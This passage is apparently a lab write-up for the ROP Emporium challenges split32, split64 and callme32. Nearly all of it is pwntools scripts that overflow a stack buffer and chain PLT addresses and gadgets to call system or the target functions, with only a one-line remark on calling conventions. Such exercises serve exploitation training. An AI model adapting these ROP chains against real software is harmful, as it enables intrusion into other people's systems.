 ## split32

```python
from pwn import *

p = process("./split32")
p.recvuntil("> ")
system_plt_address = 0x08048430
usefulString_address = 0x0804A030
payload = "A"*(0x28+4) + p32(system_plt_address) + "B"*4 + p32(usefulString_address)
p.sendline(payload)
p.interactive()
```

## split64

```python
from pwn import *

p = process("./split")
system_plt_address = 0x00000000004005E0
usefulString_address = 0x0000000000601060
pop_rdi_ret_address = 0x0000000000400883
payload = "A"*(0x20+8) + p64(pop_rdi_ret_address) + p64(usefulString_address) + p64(system_plt_address)
p.sendline(payload)
p.interactive()
```

# 0x03 callme

Through RE, the callme problem focuses on calling conventions. We could call callme_one(), callme_two() and callme_three() with correct arguments 1,2,3. Just so so.

## callme32

```python
from pwn import *

p = process("./callme32")
p.recvuntil("> ")
callme_one_plt_address = 0x080485C0
callme_two_plt_address = 0x08048620
callme_thress_plt_address = 0x080485B0
pop_pop_ret_address = 0x080488a9
payload = flat(["A"*(0x28+4), callme_one_plt_address, pop_pop_ret_address, 1, 2, 3, callme_two_plt_address, pop_pop_ret_address, 1, 2, 3, callme_thress_plt_address, pop_pop_ret_address, 1, 2, 3])
p.sendline(payload)
p.interactive()
```
